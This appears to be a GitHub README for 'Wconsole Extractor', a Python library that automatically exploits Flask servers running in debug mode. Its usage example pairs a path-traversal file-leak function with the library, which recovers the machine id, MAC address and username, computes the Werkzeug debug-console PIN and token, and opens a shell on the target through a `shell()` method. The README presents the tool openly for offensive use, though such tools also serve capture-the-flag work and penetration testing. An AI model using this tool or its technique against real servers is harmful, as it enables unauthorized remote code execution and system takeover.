 # Wconsole Extractor

## Description

Wconsole Extractor is a library which allows to automatically exploit a flask debug mode server. You just need to write a file leak function, pass it to the class ``WConsoleExtractor`` constructor and you can access to all the elements related to the debug mode.

## Installation

```
git clone https://github.com/Ruulian/wconsole-extractor.git
cd wconsole-extractor
python3 setup.py install
```

## Requirements

To use this library the following requirements need to be satisfied:
- Having a leak function written in Python 3 which takes a filename as parameter and returns the content
- Target operating system is Linux

## Usage

```py
from wconsole-extractor import WConsoleExtractor
import requests

def leak_file(filename) -> str:
    r = requests.get(f"http://localhost/renderfile?path={filename}")
    return r.text

extractor = WConsoleExtractor(
    target="http://localhost",
    leak_function=leak_file
)
```

You have now instanciated the ``WConsoleExtractor`` class, here is what you can access:
```py
# Properties
extractor.base_url             # => http://localhost
extractor.class_name           # => Flask
extractor.machine_id           # => Machine id needed in private_bits
extractor.modname              # => flask.app
extractor.pin_code             # => debug console PIN CODE
extractor.private_bits         # => [leaked_uuid_get_node, leaked_machine_id]
extractor.probably_public_bits # => [username, modname, class_name, path_to_package]
extractor.python_version       # Python version running on target
extractor.target               # The target specified
extractor.token                # The token used to run a command in the debug console
extractor.username             # The username which probably launched the flask application
extractor.uuidnode             # The int mac address of the target host

# Methods
extractor.shell()              # Get a shell :)
```